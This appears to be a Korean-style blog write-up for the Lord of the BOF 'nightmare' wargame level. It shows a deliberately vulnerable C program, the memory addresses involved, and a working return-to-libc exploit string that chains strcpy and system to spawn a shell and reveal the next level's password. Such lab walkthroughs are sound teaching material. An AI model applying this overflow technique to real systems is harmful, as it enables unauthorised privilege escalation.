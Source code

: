 ```yaml
---
title: "[LOB]Level18. nightmare"
tags: [Wargame, LOB, Write-up]
author: eli_ez3r
key: 20180831
modify_date: 2018-08-31
article_header:
  type: cover
  image:
    src: 
---
```


[plt](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - nightmare
        - PLT
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <dumpcode.h>

main(int argc, char *argv[])
{
    char buffer[40];
    char *addr;

    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }

    // check address
    addr = (char *)&strcpy;
    if(memcmp(argv[1]+44, &addr, 4) != 0){
        printf("You must fall in love with strcpy()\n");
        exit(0);
    }

    // overflow!
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);

    // dangerous waterfall
    memset(buffer+40+8, 'A', 4);
}
```

-----

### 0x01. Analysis

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/18.nightmare/image-20180727182321698.png" width="600px">

strcpy = 0x8048410

system = 0x40058ae0

ebp-40 = 0xbffffaa0

"/bin/sh" = 0x400fbff9

ret+4 = 0xbffffad0

-----

### 0x02. Exploit

```sh
[succubus@localhost succubus]$ ./nightmare `python -c 'print "\xe0\x8a\x05\x40"+"A"*4+"\xf9\xbf\x0f\x40"+"A"*32+"\x10\x84\x04\x08"+"A"*4+"\xd0\xfa\xff\xbf"+"\xa0\xfa\xff\xbf"'`
�@AAAA�@AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��������
bash$ my-pass
euid = 518
beg for me
bash$ id
uid=517(succubus) gid=517(succubus) euid=518(nightmare) egid=518(nightmare) groups=517(succubus)
```

-----



